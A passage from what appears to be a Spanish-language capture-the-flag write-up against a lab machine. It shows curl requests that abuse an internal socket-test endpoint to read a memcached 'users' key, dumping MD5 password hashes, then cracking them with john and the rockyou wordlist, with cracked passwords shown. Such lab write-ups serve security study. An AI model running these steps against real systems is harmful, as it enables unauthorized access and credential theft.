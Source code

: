 Al intentar obtenerlo recibo un error

```null
curl -s -X GET -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd=stats+get+users' | html2text

Status of cache engine: Online
*** TCP socket test ***
[port                ] [cmd                 ]
/input>
Output
ERROR
```

Para solucionarlo, basta con volver a inicar sesión en el puerto 80. Obtengo todos los usuarios con sus respectivos hashes

```null
curl -s -X GET -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd=get+users' | html2text

Status of cache engine: Online
*** TCP socket test ***
[port                ] [cmd                 ]
/input>
Output
VALUE users 0 24625
{"quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott":
"c6ab361604c4691f78958d6289910d21", "isidro":
"e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266",
"colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel":
"bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen":
"d7505316e9a10fc113126f808663b5a4", "jessie":
"71f08b45555acc5259bcefa3af63f4e1", "milton_hintz":
"8f61be2ebfc66a5f2496bbf849c89b84", "demario_homenick":
"2c22da161f085a9aba62b9bbedbd4ca7", "paris":
"ef9b20082b7c234c91e165c947f10b71", "gardner_ward":
....
```

Crackeo todos los hashes con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 495 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (admin)     
piggy            (abbigail)     
monkeyman        (ona)     
strength         (irma)     
blaster          (alec)     
megadeth         (wendell)     
misfits          (aglae)     
lovesucks1       (rick)     
Princess1        (genevieve)     
default          (default)     
hacktheplanet    (d_murphy)     
demo             (demo)     
12g 0:00:00:00 DONE (2023-04-04 16:36) 16.00g/s 19124Kp/s 19124Kc/s 6928MC/s  filimani..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
